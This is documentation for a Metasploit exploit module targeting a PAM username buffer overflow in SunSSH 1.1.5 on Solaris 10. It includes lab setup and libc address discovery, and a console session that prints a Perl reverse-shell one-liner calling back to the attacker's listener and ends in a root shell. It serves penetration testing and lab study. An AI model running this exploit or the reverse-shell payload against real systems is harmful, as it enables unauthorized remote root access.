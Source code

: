 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. SunSSH should already be installed and running
when you start the system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(solaris/ssh/pam_username_bof) > check

[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 192.168.1.14:22       - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.168.1.14:22       - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.1.14:22 - Cannot reliably check exploitability.
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.1.7:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.1.7:4444
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
[*] Yeeting cmd/unix/reverse_perl at 192.168.1.14:22
[*] Command shell session 1 opened (192.168.1.7:4444 -> 192.168.1.14:32882) at 2020-11-30 21:26:52 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.10 Generic_147148-26 i86pc i386 i86pc
```
